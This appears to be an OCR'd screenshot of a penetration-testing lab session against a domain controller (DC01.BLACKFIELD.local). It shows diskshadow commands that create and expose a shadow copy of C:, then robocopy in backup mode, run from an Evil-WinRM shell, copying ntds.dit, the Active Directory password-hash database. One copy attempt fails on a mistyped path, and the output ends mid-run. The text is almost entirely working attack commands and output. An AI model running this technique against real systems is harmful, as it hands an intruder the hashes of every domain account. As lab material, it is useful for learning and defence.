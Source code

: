 ```bash
On computer:  DC01,  8/5/2025 9:28:35 PM

-> set context persistent nowriters
-> add volume c: alias raj
-> create
Alias raj for shadow ID {92e80450-422d-42ac-9db0-1d6e2c594fd2} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {db98334c-1c71-4a02-b8bf-564a028e6afe} set as environment variable.

Querying all shadow copies with the shadow copy set ID {db98334c-1c71-4a02-b8bf-564a028e6afe}

	* Shadow copy ID = {92e80450-422d-42ac-9db0-1d6e2c594fd2}		%raj%
		- Shadow copy set: {db98334c-1c71-4a02-b8bf-564a028e6afe}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\\\?\\Volume{6cd5140b-0000-0000-0000-602200000000}\\ [C:\\]
		- Creation time: 8/5/2025 9:28:36 PM
		- Shadow copy device name: \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %raj% z:
-> %raj% = {92e80450-422d-42ac-9db0-1d6e2c594fd2}
The shadow copy was successfully exposed as z:\\.
->
*Evil-WinRM* PS C:\\Temp> robocopy /b z:windowsntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 5, 2025 9:28:44 PM
   Source : Z:\\windowsntds\\
     Dest : C:\\Temp\\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

2025/08/05 21:28:44 ERROR 2 (0x00000002) Accessing Source Directory Z:\\windowsntds\\
The system cannot find the file specified.

*Evil-WinRM* PS C:\\Temp> robocopy /b z:\\windows\\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 5, 2025 9:29:30 PM
   Source : z:\\windows\\ntds\\
     Dest : C:\\Temp\\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

```
